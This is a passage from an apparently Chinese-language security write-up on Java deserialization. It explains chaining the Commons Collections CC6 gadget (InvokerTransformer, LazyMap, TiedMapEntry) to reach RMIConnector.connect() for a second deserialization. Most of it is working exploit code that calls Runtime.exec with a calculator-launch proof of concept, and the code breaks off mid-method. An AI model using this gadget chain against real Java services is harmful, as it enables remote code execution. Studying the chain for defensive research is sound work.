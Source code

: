 那么接下来的问题就是如何把这个`connect()`​方法给利用起来，第一种方法比较难跟，但是第二种方法我们就可以联想到最简单的 CC 链的`InvokerTransformer`​来进行任意类任意方法调用，这样子就可以套一层反射来调用`connect()`​了

于是就可以写出 EXP，通过 CC6 来进行调用二次反序列化

```bash
package RMIconnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6_t {




    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a Calculator"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);





        String s = serialize2Base64(map2);
        run(s);
//        unserialize("ser.bin");

```